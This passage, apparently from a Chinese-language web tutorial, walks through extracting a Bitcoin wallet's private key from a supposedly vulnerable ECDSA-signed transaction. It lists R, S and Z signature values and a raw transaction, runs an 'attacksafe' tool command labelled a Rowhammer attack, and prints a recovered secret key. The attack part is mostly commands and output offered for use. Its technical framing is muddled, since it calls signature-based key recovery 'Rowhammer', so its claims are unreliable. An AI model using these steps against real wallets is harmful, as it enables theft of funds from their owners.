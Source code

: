 

<pre class="wp-block-code"><code>R = 0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2
S = 0x282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad5
Z = 0x7270a25b48c53581f9babe8edcf27f9a038e7b57e817a8b242a49e2248bc71a7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-135-1024x351.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1225"/></figure>



<p>我們發起了這次攻擊<code>-tool rowhammer_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-136-1024x524.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1227"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xe5fa9dccef88781e25e77bd1ea7830c0b33c57481b79007cda117da8139ea7c3

RawTX = 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>
